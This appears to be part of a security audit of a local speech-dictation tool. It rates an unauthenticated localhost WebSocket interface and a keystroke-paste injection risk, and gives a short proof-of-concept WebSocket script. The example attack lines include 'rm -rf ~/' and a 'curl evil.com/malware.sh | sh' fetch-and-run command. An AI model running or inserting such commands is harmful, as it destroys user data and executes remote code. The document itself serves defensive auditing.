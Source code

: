 **CVSS Score**: 7.5 (High) - AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

---

#### Risk #2: Unauthenticated WebSocket Command Interface
**Component**: `websocket_server.py:websocket_handler()`
```python
# VULNERABLE CODE
return await websockets.serve(self.websocket_handler, "localhost", self.ws_port)
```

**Vulnerability Details**:
- **Exposure**: Any localhost process can connect and send commands
- **Attack Vector**: Malicious process sends `START_LISTENING` → triggers speech recognition
- **Impact**: Unauthorized speech recognition activation, potential transcript injection
- **Exploitability**: Requires local code execution but no authentication

**Evidence**:
```python
# Potential exploit - any local process can do this:
import websockets
import json
import asyncio

async def exploit():
    uri = "ws://localhost:8081"
    async with websockets.connect(uri) as websocket:
        await websocket.send(json.dumps({"type": "START_LISTENING"}))
```

**CVSS Score**: 6.8 (Medium-High) - AV:L/AC:L/PR:N/UI:N/S:U/C:L/I:H/A:L

---

### **MEDIUM RISK** ⚠️⚠️

#### Risk #3: Arbitrary Keystroke Injection
**Component**: `websocket_dictation_fixed.py:paste_to_active_app()`
```python
# VULNERABLE CODE
def paste_to_active_app(self):
    kb = Controller()
    kb.press(Key.cmd)
    kb.press(KeyCode.from_char('v'))  # Pastes without validation
```

**Vulnerability Details**:
- **Exposure**: Compromised transcript data results in arbitrary keystroke injection
- **Attack Vector**: Malicious transcript containing terminal commands
- **Impact**: Command execution if pasted into Terminal/shell
- **Exploitability**: Requires WebSocket compromise or malicious Chrome extension

**Potential Exploit Scenarios**:
```bash
# If transcript becomes: "rm -rf ~/" → Catastrophic data loss
# If transcript becomes: "curl evil.com/malware.sh | sh" → Remote code execution
```
